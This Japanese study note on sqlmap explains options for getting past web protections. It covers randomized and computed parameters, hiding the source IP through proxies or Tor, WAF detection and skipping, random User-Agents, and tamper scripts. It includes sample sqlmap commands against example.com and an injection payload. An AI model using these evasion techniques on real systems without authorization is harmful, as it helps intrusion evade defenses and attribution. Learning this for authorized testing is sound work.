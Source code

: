 ### ユニーク値によるバイパス
- SRFトークンの代わりに、「毎回異なる値」を必要とするパラメータもある

**回避方法**
 `--randomize` オプションで回避できる
```shell-session
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```

### 計算された値のバイパス
- 一部のWebアプリは、あるパラメータの値が他のパラメータを基に計算されたものである必要がある
例：h=MD5(id) のようなケース

**回避方法**
`--eval`オプションで回避できる
```shell-session
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```

### IPアドレスの隠蔽
- WebアプリがIPベースでブラックリスト管理している場合は、以下の手段が有効

| **方法**  | **オプション**                              | **説明**             |
| ------- | -------------------------------------- | ------------------ |
| プロキシ指定  | --proxy="socks4://177.39.187.70:33283" | 手動でプロキシ指定          |
| プロキシリスト | --proxy-file=proxies.txt               | 複数プロキシを順に使う        |
| Tor使用   | --tor                                  | Torネットワーク経由で実行     |
| Tor確認   | --check-tor                            | Torがちゃんと使われてるかチェック |

### WAFバイパス
- SQLMapは実行時に「存在しないパラメータ」による攻撃的なペイロードを送って、WAFの存在を検出する
	- 例：?pfov=1' OR '1'='1
- WAFがあるとレスポンスに406などのエラーコードが返る。
- SQLMapはidentYwafライブラリを使って、80種以上のWAFを識別可能
**回避方法**
- `--skip-waf`: WAFチェックをスキップして静かに実行

### User-Agent ブラックリストの回避
- 初回実行からいきなり5XX系エラーが返ってきたら、
- User-Agent: sqlmap/... がブラックリストに入っている可能性が高い
**回避方法**
- `--random-agent` : → ブラウザのUser-Agentをランダムに切り替えて送信

### Tamper Script
- WAFやIPSを回避するためのSQLMap最強の機能が tamper スクリプト

**回避方法**
- `--tamper=between,randomcase`
	- between: > → NOT BETWEEN 0 AND #, = → BETWEEN # AND # に置換
	- randomcase: SQLキーワードの文字ケースをランダム化（SELECT → SeLEct）
- これにより、単純なルールでブロックしているWAFをすり抜けられる。
一覧

